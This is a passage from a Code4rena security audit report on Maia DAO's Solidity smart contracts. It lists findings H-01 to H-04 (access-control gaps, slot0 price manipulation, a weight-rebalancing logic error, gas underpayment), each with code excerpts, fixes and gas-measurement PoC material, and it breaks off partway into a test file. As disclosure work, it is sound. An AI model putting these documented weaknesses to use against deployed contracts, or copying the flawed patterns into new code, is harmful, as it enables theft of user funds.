

# Overview

## About C4

Code4rena (C4) is an open organization consisting of security researchers, auditors, developers, and individuals with domain expertise in smart contracts.

A C4 audit is an event in which community participants, referred to as Wardens, review, audit, or analyze smart contract logic in exchange for a bounty provided by sponsoring projects.

During the audit outlined in this document, C4 conducted an analysis of the Maia DAO Ecosystem smart contract system written in Solidity. The audit took place between May 30 - July 5 2023.

## Wardens

85 Wardens contributed reports to the Maia DAO Ecosystem:

  1. [xuwinnie](https://code4rena.com/@xuwinnie)
  2. [Koolex](https://code4rena.com/@Koolex)
  3. Voyvoda ([alexxander](https://code4rena.com/@alexxander), [deadrxsezzz](https://code4rena.com/@deadrxsezzz) and [gogo](https://code4rena.com/@gogo))
  4. [bin2chen](https://code4rena.com/@bin2chen)
  5. [0xStalin](https://code4rena.com/@0xStalin)
  6. [Emmanuel](https://code4rena.com/@Emmanuel)
  7. [ABA](https://code4rena.com/@ABA)
  8. [peakbolt](https://code4rena.com/@peakbolt)
  9. [T1MOH](https://code4rena.com/@T1MOH)
  10. [ltyu](https://code4rena.com/@ltyu)
  11. [yellowBirdy](https://code4rena.com/@yellowBirdy)
  12. [zzebra83](https://code4rena.com/@zzebra83)
  13. [minhquanym](https://code4rena.com/@minhquanym)
  14. [lukejohn](https://code4rena.com/@lukejohn)
  15. [said](https://code4rena.com/@said)
  16. [0xTheC0der](https://code4rena.com/@0xTheC0der)
  17. [rbserver](https://code4rena.com/@rbserver)
  18. [Evo](https://code4rena.com/@Evo)
  19. [AlexCzm](https://code4rena.com/@AlexCzm)
  20. [tsvetanovv](https://code4rena.com/@tsvetanovv)
  21. BPZ ([Bitcoinfever244](https://code4rena.com/@Bitcoinfever244), [PrasadLak](https://code4rena.com/@PrasadLak) and [zinc42](https://code4rena.com/@zinc42))
  22. [kutugu](https://code4rena.com/@kutugu)
  23. [Breeje](https://code4rena.com/@Breeje)
  24. [jasonxiale](https://code4rena.com/@jasonxiale)
  25. ByteBandits ([Cryptor](https://code4rena.com/@Cryptor), [berlin-101](https://code4rena.com/@berlin-101) and [sakshamguruji](https://code4rena.com/@sakshamguruji))
  26. [Noro](https://code4rena.com/@Noro)
  27. [kodyvim](https://code4rena.com/@kodyvim)
  28. [Audinarey](https://code4rena.com/@Audinarey)
  29. los_chicos ([0xadrii](https://code4rena.com/@0xadrii), [Saintcode_](https://code4rena.com/@Saintcode_) and [ljmanini](https://code4rena.com/@ljmanini))
  30. [giovannidisiena](https://code4rena.com/@giovannidisiena)
  31. RED-LOTUS-REACH ([BlockChomper](https://code4rena.com/@BlockChomper), [DedOhWale](https://code4rena.com/@DedOhWale), [SaharDevep](https://code4rena.com/@SaharDevep), [reentrant](https://code4rena.com/@reentrant) and [escrow](https://code4rena.com/@escrow))
  32. [SpicyMeatball](https://code4rena.com/@SpicyMeatball)
  33. [chaduke](https://code4rena.com/@chaduke)
  34. [Udsen](https://code4rena.com/@Udsen)
  35. [MohammedRizwan](https://code4rena.com/@MohammedRizwan)
  36. Verichains ([LowK](https://code4rena.com/@LowK), [th13vn](https://code4rena.com/@th13vn), [nt](https://code4rena.com/@nt) and [lifebow](https://code4rena.com/@lifebow))
  37. [KupiaSec](https://code4rena.com/@KupiaSec)
  38. [shealtielanz](https://code4rena.com/@shealtielanz)
  39. [IllIllI](https://code4rena.com/@IllIllI)
  40. [max10afternoon](https://code4rena.com/@max10afternoon)
  41. [KingNFT](https://code4rena.com/@KingNFT)
  42. [Madalad](https://code4rena.com/@Madalad)
  43. [Fulum](https://code4rena.com/@Fulum)
  44. [Josiah](https://code4rena.com/@Josiah)
  45. [0x4non](https://code4rena.com/@0x4non)
  46. [0xnev](https://code4rena.com/@0xnev)
  47. [btk](https://code4rena.com/@btk)
  48. [0xMilenov](https://code4rena.com/@0xMilenov)
  49. [ihtishamsudo](https://code4rena.com/@ihtishamsudo)
  50. [lsaudit](https://code4rena.com/@lsaudit)
  51. [zzzitron](https://code4rena.com/@zzzitron)
  52. [Atree](https://code4rena.com/@Atree)
  53. [BLOS](https://code4rena.com/@BLOS)
  54. [its_basu](https://code4rena.com/@its_basu)
  55. [Kamil-Chmielewski](https://code4rena.com/@Kamil-Chmielewski)
  56. [peanuts](https://code4rena.com/@peanuts)
  57. [0xSmartContract](https://code4rena.com/@0xSmartContract)
  58. BugBusters ([nirlin](https://code4rena.com/@nirlin) and [0xepley](https://code4rena.com/@0xepley))
  59. [Co0nan](https://code4rena.com/@Co0nan)
  60. [LokiThe5th](https://code4rena.com/@LokiThe5th)
  61. [ubermensch](https://code4rena.com/@ubermensch)
  62. [adeolu](https://code4rena.com/@adeolu)
  63. [nadin](https://code4rena.com/@nadin)
  64. [Kaiziron](https://code4rena.com/@Kaiziron)
  65. [Qeew](https://code4rena.com/@Qeew)
  66. [brgltd](https://code4rena.com/@brgltd)
  67. [0xCiphky](https://code4rena.com/@0xCiphky)
  68. [Oxsadeeq](https://code4rena.com/@Oxsadeeq)
  69. [8olidity](https://code4rena.com/@8olidity)

This audit was judged by [Trust](https://github.com/Trust).

Final report assembled by thebrittfactor.

# Summary

The C4 analysis yielded an aggregated total of 79 unique vulnerabilities. Of these vulnerabilities, 35 received a risk rating in the category of HIGH severity and 44 received a risk rating in the category of MEDIUM severity.

Additionally, C4 analysis included 21 reports detailing issues with a risk rating of LOW severity or non-critical. There were also 27 reports recommending gas optimizations.

All of the issues presented here are linked back to their original finding.

# Scope

The code under review can be found within the [C4 Maia DAO Ecosystem repository](https://github.com/code-423n4/2023-05-maia), and is composed of 154 smart contracts written in the Solidity programming language and includes 10,997 lines of Solidity code.

# Severity Criteria

C4 assesses the severity of disclosed vulnerabilities based on three primary risk categories: high, medium, and low/non-critical.

High-level considerations for vulnerabilities span the following key areas when conducting assessments:

- Malicious Input Handling
- Escalation of privileges
- Arithmetic
- Gas use

For more information regarding the severity criteria referenced throughout the submission review process, please refer to the documentation provided on [the C4 website](https://code4rena.com), specifically our section on [Severity Categorization](https://docs.code4rena.com/awarding/judging-criteria/severity-categorization).

# High Risk Findings (35)
## [[H-01] If a STRATEGY TOKEN is "Toggled off" STRATEGIES will still be able to withdraw, but returning of tokens with `replenishReserves` will be disabled.](https://github.com/code-423n4/2023-05-maia-findings/issues/882)
*Submitted by [yellowBirdy](https://github.com/code-423n4/2023-05-maia-findings/issues/882)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchPort.sol#L158-L169> 

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchPort.sol#L172-L186>

### Impact

`BranchPort.manage` allows a registered Strategy to withdraw certain amounts of enabled strategy tokens. It validates access rights; i.e. if called by a strategy registered for the requested token. However, it doesn't check to see if the token itself is currently enabled.

Conversely, `BranchPort.replenishTokens` allows a forced withdrawal of managed tokens from a strategy. However, it performs a check to see if the token is currently an active strategy token.

A strategy token may be disabled by `toggleStrategyToken()` even if there are active strategies managing it actively. In such cases, these strategies will still be able to withdraw the tokens with calls to `manage()` while `replenishTokens` will not be callable on them; thus, tokens won't be forced as returnable.

### Recommended Mitigation Steps

1.  Add a check on the enabled strategy token in `manage()`.
2.  Validate `getPortStrategyTokenDebt[_strategy][_token] > 0` instead of `!isStrategyToken[_token]` in `replenishReserves()`.

### Assessed type

Access Control

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/882#issuecomment-1632539924)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/882#issuecomment-1708799318):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/882).

***

## [[H-02] Use of `slot0` to get `sqrtPriceLimitX96` can lead to price manipulation.](https://github.com/code-423n4/2023-05-maia-findings/issues/823)
*Submitted by [shealtielanz](https://github.com/code-423n4/2023-05-maia-findings/issues/823), also found by [Breeje](https://github.com/code-423n4/2023-05-maia-findings/issues/818), [0xStalin](https://github.com/code-423n4/2023-05-maia-findings/issues/315), [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/299), [RED-LOTUS-REACH](https://github.com/code-423n4/2023-05-maia-findings/issues/920), [0xnev](https://github.com/code-423n4/2023-05-maia-findings/issues/561), and [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/294)*

In `RootBrigdeAgent.sol`, the functions `_gasSwapOut` and `_gasSwapIn` use `UniswapV3.slot0` to get the value of `sqrtPriceX96`, which is used to perform the swap. However, the `sqrtPriceX96` is pulled from `Uniswap.slot0`, which is the most recent data point and can be manipulated easily via `MEV` bots and `Flashloans` with sandwich attacks; which can cause the loss of funds when interacting with the `Uniswap.swap` function.

### Proof of Concept

You can see the `_gasSwapIn` function in `RootBrigdeAgent.sol` [here](https://github.com/code-423n4/2023-05-maia/blob/cfed0dfa3bebdac0993b1b42239b4944eb0b196c/src/ulysses-omnichain/RootBridgeAgent.sol#L674C1-L689C75):

```solidity

     //Get sqrtPriceX96
        (uint160 sqrtPriceX96,,,,,,) = IUniswapV3Pool(poolAddress).slot0();

        // Calculate Price limit depending on pre-set price impact
        uint160 exactSqrtPriceImpact = (sqrtPriceX96 * (priceImpactPercentage / 2)) / GLOBAL_DIVISIONER;

        //Get limit
        uint160 sqrtPriceLimitX96 =
            zeroForOneOnInflow ? sqrtPriceX96 - exactSqrtPriceImpact : sqrtPriceX96 + exactSqrtPriceImpact;

        //Swap imbalanced token as long as we haven't used the entire amountSpecified and haven't reached the price limit
        try IUniswapV3Pool(poolAddress).swap(
            address(this),
            zeroForOneOnInflow,
            int256(_amount),
            sqrtPriceLimitX96,
            abi.encode(SwapCallbackData({tokenIn: gasTokenGlobalAddress}))
```

You can also see the `_gasSwapOut` function in `RootBrigdeAgent.sol` [here](https://github.com/code-423n4/2023-05-maia/blob/cfed0dfa3bebdac0993b1b42239b4944eb0b196c/src/ulysses-omnichain/RootBridgeAgent.sol#L717C1-L734C11).

```solidity
   (uint160 sqrtPriceX96,,,,,,) = IUniswapV3Pool(poolAddress).slot0();

            // Calculate Price limit depending on pre-set price impact
            uint160 exactSqrtPriceImpact = (sqrtPriceX96 * (priceImpactPercentage / 2)) / GLOBAL_DIVISIONER;

            //Get limit
            sqrtPriceLimitX96 =
                zeroForOneOnInflow ? sqrtPriceX96 + exactSqrtPriceImpact : sqrtPriceX96 - exactSqrtPriceImpact;
        }

        //Swap imbalanced token as long as we haven't used the entire amountSpecified and haven't reached the price limit
        (int256 amount0, int256 amount1) = IUniswapV3Pool(poolAddress).swap(
            address(this),
            !zeroForOneOnInflow,
            int256(_amount),
            sqrtPriceLimitX96,
            abi.encode(SwapCallbackData({tokenIn: address(wrappedNativeToken)}))
        );
```

These both use the function `sqrtPriceX96` pulled from `Uniswap.slot0`. An attacker can simply manipulate the `sqrtPriceX96` and if the `Uniswap.swap` function is called with the `sqrtPriceX96`, the token will be bought at a higher price and the attacker would run the transaction to sell; thereby earning gains but causing a loss of funds to whoever called those functions.

### Recommended Mitigation Steps

Use the `TWAP` function to get the value of `sqrtPriceX96`.

### Assessed type

MEV

**[0xBugsy (Maia) acknowledged, but disagreed with severity](https://github.com/code-423n4/2023-05-maia-findings/issues/823#issuecomment-1632939205)**

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/823#issuecomment-1647879866):**
 > Due to a risk of material loss of funds and the only condition for abuse is being able to sandwich a TX, high seems appropriate.

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/823#issuecomment-1655936991):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-03] `setWeight()` Logic error](https://github.com/code-423n4/2023-05-maia-findings/issues/766)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/766), also found by [Udsen](https://github.com/code-423n4/2023-05-maia-findings/issues/772), [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/433), lukejohn ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/246), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/244)), and ltyu ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/29), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/27), [3](https://github.com/code-423n4/2023-05-maia-findings/issues/24))*

### Lines of code

https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesPool.sol#L223

### Proof of Concept

`setWeight()` is used to set the new weight. The code is as follows:

```solidity
    function setWeight(uint256 poolId, uint8 weight) external nonReentrant onlyOwner {
        if (weight == 0) revert InvalidWeight();

        uint256 poolIndex = destinations[poolId];

        if (poolIndex == 0) revert NotUlyssesLP();

        uint256 oldRebalancingFee;

        for (uint256 i = 1; i < bandwidthStateList.length; i++) {
            uint256 targetBandwidth = totalSupply.mulDiv(bandwidthStateList[i].weight, totalWeights);

            oldRebalancingFee += _calculateRebalancingFee(bandwidthStateList[i].bandwidth, targetBandwidth, false);
        }

        uint256 oldTotalWeights = totalWeights;
        uint256 weightsWithoutPool = oldTotalWeights - bandwidthStateList[poolIndex].weight;
        uint256 newTotalWeights = weightsWithoutPool + weight;
        totalWeights = newTotalWeights;

        if (totalWeights > MAX_TOTAL_WEIGHT || oldTotalWeights == newTotalWeights) {
            revert InvalidWeight();
        }

        uint256 leftOverBandwidth;

        BandwidthState storage poolState = bandwidthStateList[poolIndex];
        poolState.weight = weight;
@>      if (oldTotalWeights > newTotalWeights) {
            for (uint256 i = 1; i < bandwidthStateList.length;) {
                if (i != poolIndex) {
                    uint256 oldBandwidth = bandwidthStateList[i].bandwidth;
                    if (oldBandwidth > 0) {
                        bandwidthStateList[i].bandwidth =
                            oldBandwidth.mulDivUp(oldTotalWeights, newTotalWeights).toUint248();
                        leftOverBandwidth += oldBandwidth - bandwidthStateList[i].bandwidth;
                    }
                }

                unchecked {
                    ++i;
                }
            }
            poolState.bandwidth += leftOverBandwidth.toUint248();
        } else {
            uint256 oldBandwidth = poolState.bandwidth;
            if (oldBandwidth > 0) {
@>              poolState.bandwidth = oldBandwidth.mulDivUp(oldTotalWeights, newTotalWeights).toUint248();

                leftOverBandwidth += oldBandwidth - poolState.bandwidth;
            }

            for (uint256 i = 1; i < bandwidthStateList.length;) {
              

                if (i != poolIndex) {
                     if (i == bandwidthStateList.length - 1) {
@>                       bandwidthStateList[i].bandwidth += leftOverBandwidth.toUint248();
                     } else if (leftOverBandwidth > 0) {
@>                       bandwidthStateList[i].bandwidth +=
@>                          leftOverBandwidth.mulDiv(bandwidthStateList[i].weight, weightsWithoutPool).toUint248();
                     }
                }

                unchecked {
                    ++i;
                }
            }
        }
```

There are several problems with the above code:
1.  `if (oldTotalWeights > newTotalWeights)` should be changed to `if (oldTotalWeights < newTotalWeights)` because the logic inside of the `if` is to calculate the case of increasing `weight`.

2.  `poolState.bandwidth = oldBandwidth.mulDivUp(oldTotalWeights , newTotalWeights).toUint248();` should be modified to `poolState.bandwidth = oldBandwidth.mulDivUp(newTotalWeights, oldTotalWeights).toUint248();` because this calculates with the extra number.

3.  `leftOverBandwidth` has a problem with the processing logic.

### Recommended Mitigation Steps

```solidity
    function setWeight(uint256 poolId, uint8 weight) external nonReentrant onlyOwner {
...

-        if (oldTotalWeights > newTotalWeights) {
+        if (oldTotalWeights < newTotalWeights) {
            for (uint256 i = 1; i < bandwidthStateList.length;) {
                if (i != poolIndex) {
                    uint256 oldBandwidth = bandwidthStateList[i].bandwidth;
                    if (oldBandwidth > 0) {
                        bandwidthStateList[i].bandwidth =
                            oldBandwidth.mulDivUp(oldTotalWeights, newTotalWeights).toUint248();
                        leftOverBandwidth += oldBandwidth - bandwidthStateList[i].bandwidth;
                    }
                }

                unchecked {
                    ++i;
                }
            }
            poolState.bandwidth += leftOverBandwidth.toUint248();
        } else {
            uint256 oldBandwidth = poolState.bandwidth;
            if (oldBandwidth > 0) {
-               poolState.bandwidth = oldBandwidth.mulDivUp(oldTotalWeights, newTotalWeights).toUint248();
+               poolState.bandwidth = oldBandwidth.mulDivUp(newTotalWeights, oldTotalWeights).toUint248();

                leftOverBandwidth += oldBandwidth - poolState.bandwidth;
            }

+           uint256 currentGiveWidth = 0;
+           uint256 currentGiveCount = 0;
            for (uint256 i = 1; i < bandwidthStateList.length;) {

+                if (i != poolIndex) {
+                     if(currentGiveCount == bandwidthStateList.length - 2 - 1) { //last
+                         bandwidthStateList[i].bandwidth += leftOverBandwidth - currentGiveWidth;
+                    }
+                     uint256 sharesWidth = leftOverBandwidth.mulDiv(bandwidthStateList[i].weight, weightsWithoutPool).toUint248();
+                     bandwidthStateList[i].bandwidth += sharesWidth;
+                     currentGiveWidth +=sharesWidth;  
+                     currentCount++;
+                 }                

-                if (i != poolIndex) {
-                    if (i == bandwidthStateList.length - 1) {
-                        bandwidthStateList[i].bandwidth += leftOverBandwidth.toUint248();
-                    } else if (leftOverBandwidth > 0) {
-                        bandwidthStateList[i].bandwidth +=
-                            leftOverBandwidth.mulDiv(bandwidthStateList[i].weight, weightsWithoutPool).toUint248();
-                    }
-               }

                unchecked {
                    ++i;
                }
            }
        }
...

```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/766#issuecomment-1633009812)**

**[Trust (judge) increased the severity to High](https://github.com/code-423n4/2023-05-maia-findings/issues/766#issuecomment-1653393891)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/766#issuecomment-1655653312):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[H-04] `MIN_FALLBACK_RESERVE` (in `BranchBridgeAgent`) doesn't consider the actual gas consumption in ``AnyCall`` contracts, which lets the user underpay the actual cost when replenishing the execution budget](https://github.com/code-423n4/2023-05-maia-findings/issues/764)
*Submitted by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/764)*

`anyFallback` method is called by the `Anycall Executor` on the source chain in case of a failure of the function `anyExecute` on the root chain. The user has to pay for the execution gas cost for this, which is done at the end of the call. However, if there is not enough `depositedGas`, the  `anyFallback` method will be reverted, due to a revert caused by the `Anycall Executor`. This shouldn't happen since the depositor deposited at least the `MIN_FALLBACK_RESERVE` (`185_000`) in the first place.

Here is the calculation for the gas used when `anyFallback` is called:

```solidity
	//Save gas
	uint256 gasLeft = gasleft();

	//Get Branch Environment Execution Cost
	uint256 minExecCost = tx.gasprice * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);

	//Check if sufficient balance
	if (minExecCost > getDeposit[_depositNonce].depositedGas) {
		_forceRevert();
		return;
	}
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1063-L1072>

`_forceRevert` will withdraw all of the execution budget:

    	// Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
    	if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}

So `Anycall Executor` will revert if there is not enough budget. This is done at:

```solidity
	uint256 budget = executionBudget[_from];
	require(budget > totalCost, "no enough budget");
	executionBudget[_from] = budget - totalCost;
```
<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L206C42-L206C58>

### (1) Gas Calculation in our `anyFallback` and in ``AnyCall`` contracts:

To calculate how much the user has to pay, the following formula is used:

```solidity
	//Get Branch Environment Execution Cost
	uint256 minExecCost = tx.gasprice * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);
```

Gas units are calculated as follows:

 - Store `gasleft()` at `initialGas` at the beginning of `anyFallback` method:

```solidity
	//Get Initial Gas Checkpoint
	uint256 initialGas = gasleft();
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1233-L1234>

- Nearly at the end of the method, deduct `gasleft()` from `initialGas`. This covers everything between the initial gas checkpoint and the ending gas checkpoint.

```solidity
        //Save gas
        uint256 gasLeft = gasleft();

        //Get Branch Environment Execution Cost
        uint256 minExecCost = tx.gasprice * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1063-L1066>

- Add `MIN_FALLBACK_RESERVE` which is **`185_000`**.

This overhead is supposed to cover:

- **`100_000` for `anycall`**. This is extra cost required by `Anycall`.

```solidity
Line:38	
uint256 constant EXECUTION_OVERHEAD = 100000;
	.
	.
Line:203	
uint256 gasUsed = _prevGasLeft + EXECUTION_OVERHEAD - gasleft();
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L203>

- **`85_000` for our fallback execution**. For example, this is used to cover the modifier `requiresExecutor` and to cover everything after the end gas checkpoint.

If we check how much this would actually cost, **we can find it nearly `70_000`**. So, `85_000` is safe enough. A PoC is also provided to prove this. However, there is an overhead of gas usage in the `Anycall` contracts that's not considered, which is different than the `100_000` extra that's required by ``AnyCall`` anyway (see above).

This means, the user is paying less than the actual cost. According to the sponsor, Bridge Agent deployer deposits the first time into `anycallConfig`, where the goal is to replenish the execution budget after use every time.

The issue leads to:

1. **execution budget is decreasing over time (slow draining)** in case it has funds already.

2. **anyExecute call will fail** since the calculation of the gas used in the `Anycall` contracts is bigger than the minimum reserve. In `Anycall`, this is done by the modifier `chargeDestFee`.

- Modifier `chargeDestFee`:

    ```solidity
    	modifier chargeDestFee(address _from, uint256 _flags) {
    	if (_isSet(_flags, AnycallFlags.FLAG_PAY_FEE_ON_DEST)) {
    		uint256 _prevGasLeft = gasleft();
    		_;
    		IAnycallConfig(config).chargeFeeOnDestChain(_from, _prevGasLeft);
    	} else {
    		_;
    	}
    }
    ```

    <https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Upgradeable.sol#L163-L171>

-  Function `chargeFeeOnDestChain`:

    ```solidity
    	function chargeFeeOnDestChain(address _from, uint256 _prevGasLeft)
    		external
    		onlyAnycallContract
    	{
    		if (!_isSet(mode, FREE_MODE)) {
    			uint256 gasUsed = _prevGasLeft + EXECUTION_OVERHEAD - gasleft();
    			uint256 totalCost = gasUsed * (tx.gasprice + _feeData.premium);
    			uint256 budget = executionBudget[_from];
    			require(budget > totalCost, "no enough budget");
    			executionBudget[_from] = budget - totalCost;
    			_feeData.accruedFees += uint128(totalCost);
    		}
    	}
    ```

    <https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L203>

The gas consumption of `anyExec` method called by the MPC (in ``AnyCall``) here:

```solidity
    function anyExec(
        address _to,
        bytes calldata _data,
        string calldata _appID,
        RequestContext calldata _ctx,
        bytes calldata _extdata
    )
        external
        virtual
        lock
        whenNotPaused
        chargeDestFee(_to, _ctx.flags) // <= starting from here
        onlyMPC
    {
		.
		.
		.
		bool success = _execute(_to, _data, _ctx, _extdata);
		.
		.
   }
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Upgradeable.sol#L276>

**The gas is nearly `110_000`** and is not taken into account; as proven in the PoCs.

### (2) Base Fee & Input Data Fee:

From [Ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf):

> `Gtransaction` - 21000 Paid for every transaction.<br>
> `Gtxdatazero` - 4 Paid for every zero byte of data or code for a transaction.<br>
> `Gtxdatanonzero` - 16 Paid for every non-zero byte of data or code for a transaction.

So:

1. We have `21_000` as the base fee. This should be taken into account; however, it is paid by ``AnyCall`` since the TX is sent by MPC. So, we are fine here. This probably explains the overhead (`100_000`) added by `anycall`.

2. Because the `anyFallback` method has bytes data to be passed, we have extra gas consumption which is not taken into account.

For every zero byte `=>` 4

For every non-zero byte `=>` 16

So generally speaking, the bigger the data is, the bigger the gas becomes. You can simply prove this by adding arbitrary data to the `anyFallback` method in the PoC #1 test below. You will also see the gas spent increases.

### Summary

1. `MIN_FALLBACK_RESERVE` is safe enough, without considering the `anyExec` method (check next point).
2. The gas consumed by the `anyExec` method called by the MPC is not considered.
3. The input data fee isn't taken into account.

There are two PoCs proving the first two points above. The third point can be proven by simply adding arbitrary data to the `anyFallback` method in the PoC #1 test.

*Note: this is also applicable for `RootBridgeAgent`, which I avoided writing a separate issue for it since the code for `_payFallbackGas` is almost the same. However, those 3 statements don't exist in `RootBridgeAgent._payFallbackGas`.*

```solidity
	//Withdraw Gas
	IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), minExecCost);

	//Unwrap Gas
	wrappedNativeToken.withdraw(minExecCost);

	//Replenish Gas
	_replenishGas(minExecCost);
```

So, the gas spent is even less and `55_000` (from `155_000` in `MIN_FALLBACK_RESERVE` of `RootBridgeAgent`) is safe enough. But, the second two points are still not taken into account in `RootBridgeAgent` (see above).

### Proof of Concept #1 

`MIN_FALLBACK_RESERVE` is safe enough.

*Note: estimation doesn't consider `anyExec` method's actual cost.*

### Overview

This PoC is independent from the codebase (but uses the same code). There are two contracts simulating `BranchBridgeAgent.anyFallback`:

1. **BranchBridgeAgent**, which has the code of the pre-first gas checkpoint and the post-last gas checkpoint.
2. **BranchBridgeAgentEmpty**, which has the code of the pre-first gas checkpoint and the post-last gas checkpoint **commented out**.

We'll run the same test for both, but the difference in gas is what's at least nearly the minimum required to cover the pre-first gas checkpoint and the post-last gas checkpoint.
In this case here, it is `70_090` which is smaller than `85_000`. So, we are fine.

Here is the output of the test:

```sh
[PASS] test_calcgas() (gas: 143835)
Logs:
  branchBridgeAgent.anyFallback Gas Spent => 71993

[PASS] test_calcgasEmpty() (gas: 73734)
Logs:
  branchBridgeAgentEmpty.anyFallback Gas Spent => 1903

Test result: ok. 2 passed; 0 failed; finished in 2.08ms
```

`71_993 - 1903` = `70_090`

### Explanation

`BranchBridgeAgent.anyFallback` method depends on the following external calls:

1. `AnycallExecutor.context()`
2. `AnycallProxy.config()`
3. `AnycallConfig.executionBudget()`
4. `AnycallConfig.withdraw()`
5. `AnycallConfig.deposit()`
6. `WETH9.withdraw()`
7. `BranchPort.withdraw()`

For this reason, I've copied the same code from [multichain-smart-contracts](https://github.com/anyswap/multichain-smart-contracts). For `WETH9`, I've used the contract from the codebase which has minimal code. For `BranchPort`, I copied from the codebase. 

*Note: For libraries, unused methods were removed. This is because I couldn't submit the report, as it gave the error "too long body". However, it doesn't affect the gas spent*

Please note that:

- **tx.gasprice** is replaced with a fixed value in the `_payFallbackGas` method, as it is not available in Foundry.

- In `_replenishGas`, reading the config via `IAnycallProxy(local`AnyCall`Address).config()` is replaced with an `immediate` call for simplicity. In other words, avoiding proxy to make the PoC simpler and shorter. However, if done with proxy, the gas used would increase. So in both ways, it is in favor of the PoC.

### The coded PoC

- `Foundry.toml`

```sh
	[profile.default]
	solc = '0.8.17'
	src = 'solidity'
	test = 'solidity/test'
	out = 'out'
	libs = ['lib']
	fuzz_runs = 1000
	optimizer_runs = 10_000
```

- `.gitmodules`

```sh
	[submodule "lib/ds-test"]
		path = lib/ds-test
		url = https://github.com/dapphub/ds-test
		branch = master
	[submodule "lib/forge-std"]
		path = lib/forge-std
		url = https://github.com/brockelmore/forge-std
		branch = master
```

- `remappings.txt`

```sh
	ds-test/=lib/ds-test/src
	forge-std/=lib/forge-std/src
```

- Test File:

<details>

```solidity
// PoC => Maia OmniChain: gasCalculation for anyFallback in BranchBridgeAgent
pragma solidity >=0.8.4 <0.9.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

